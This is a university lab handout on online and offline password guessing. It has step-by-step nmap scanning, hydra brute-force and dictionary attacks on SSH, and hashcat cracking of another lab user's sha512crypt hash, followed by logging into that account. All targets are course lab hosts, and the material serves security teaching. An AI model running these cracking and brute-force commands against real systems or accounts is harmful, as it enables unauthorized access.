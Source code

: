 # **Sigurnost računala i podataka** <!-- omit in toc -->

- [Lab 6: Online and Offline Password Guessing](#lab-6-online-and-offline-password-guessing)
  - [Online Password Guessing](#online-password-guessing)
  - [Offline Password Guessing](#offline-password-guessing)

## Lab 6: Online and Offline Password Guessing

### Online Password Guessing

1. Open bash shell in WSL on your local Windows machine.
2. Check that you can reach the lab server by pinging it.
    
    ```bash
    ping challenges.local
    ```
    
3. Install `nmap` application. In the bash shell execute the following commands.
    
    ```bash
    sudo apt-get update
    sudo apt-get install nmap
    
    # Test it
    nmap
    ```
    
    Try to understand what is `nmap` used for (Google it).
    
4. Next, run the following command.
    
    ```bash
    nmap -v 10.0.15.0/28
    ```
    
    Comment the results.
    
5. Try to open a remote shell on a dedicated machine. Use `ssh` client from your local shell as shown below:
    
    ```bash
    # ssh <username>@<your hostname>
    # (e.g., for username "doe_john", the hostname will be "doejohn.local") 
    ssh doe_john@doejohn.local
    ```
    
6. Install `hydra` application. Get to know it. Now, try to perform an **online password guessing attack** against your account. You know the following information about the used password:
    - it is comprised of lowercase letters
    - its length between 4 and 6 characters
    
    **Q1:** Estimate the password space.
    
    ```bash
    # hydra -l <username> -x 4:6:a <your IP address or hostname> -V -t 1 ssh
    hydra -l doe_john -x 4:6:a doejohn.local -V -t 1 ssh
    ```
    
    **Q2:** Using the output produced by `hydra` try to estimate your effort, that is how long it would take, on average, before you succeed. You can also try to play with parameter `-t` (**IMPORTANT:** Test values 2, 3, 4 but please do not exaggerate to avoid crushing the server).
    
    **Q3:** What do your do if the estimated time from the previous question is prohibitively large?
    
7. Get the dictionary from [http://challenges.local](http://challenges.local:8080/) as follows (please mind the **group ID**).
    
    ```bash
    # For GROUP 1 (g1)
    wget -r -nH -np --reject "index.html*" http://challenges.local/dictionary/g1/
    ```
    
8. Finally, use `hydra` with the dictionary as shown below (IMPORTANT: use `dictionary_online.txt`).
    
    ```bash
    # hydra -l <username> -P dictionary/<group ID>/dictionary_online.txt <your IP address or hostname> -V -t 4 ssh
    hydra -l doe_john -P dictionary/g1/dictionary_online.txt doejohn.local -V -t 4 ssh
    ```
    
9. Try to login to your machine using the discovered password. Locate password hashes, select one account (different from your own) and try to learn the corresponding password using **offline password guessing** attack as outlined in the sequel.

### Offline Password Guessing

1. For this task, use `hashcat` tool. Install it on your local machine as follows.
    
    ```bash
    sudo apt-get install hashcat
    
    # Test it
    hashcat
    ```
    
2. Save the password hash obtained in the previous task into a file. To make this step somewhat easier, open the present folder in Visual Studio Code by running the following command.
    
    ```bash
    code .
    ```
    
3. Start offline guessing attack by executing the following command. As in the previous task you know the following about the password:
    - it is comprised of lowercase letters
    - its length is exactly 6 characters
    
    ```bash
    # hashcat --force -m 1800 -a 3 <password_hash_file> ?l?l?l?l?l?l --status --status-timer 10
    hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
    ```
    
    **Q1:** Estimate the password space.
    
    **Q2:** Using the output produced by `hashcat` try to estimate your effort, that is how long it would take, on average, before you succeed.
    
    **Q3:** What do your do if the estimated time from the previous question is prohibitively large?
    
4. If the attack from the previous step is not feasible approach, try a dictionary-based guessing attack (**IMPORTANT:** use `dictionary_offline.txt`). 
    
    As before you can get the dictionary by executing the following in the local (WSL) bash shell (in the same directory where you stored the password hash file).
    
    ```bash
    # For GROUP 1 (g1)
    wget -r -nH -np --reject "index.html*" http://challenges.local/dictionary/g1/
    ```
    
    Now start `hashcat` using the following command.
    
    ```bash
    # hashcat --force -m 1800 -a 0 <password_hash_file> <dictionary_file> --status --status-timer 10
    hashcat --force -m 1800 -a 0 password_hash.txt dictionary/g1/dictionary_offline.txt --status --status-timer 10
    ```
    
5. Test validity of the cracked password by logging into the remote machine as follows.
    
    ```bash
    # ssh <username>@<your IP address or hostname>
    ssh freddie_mercury@doejohn.local
    ```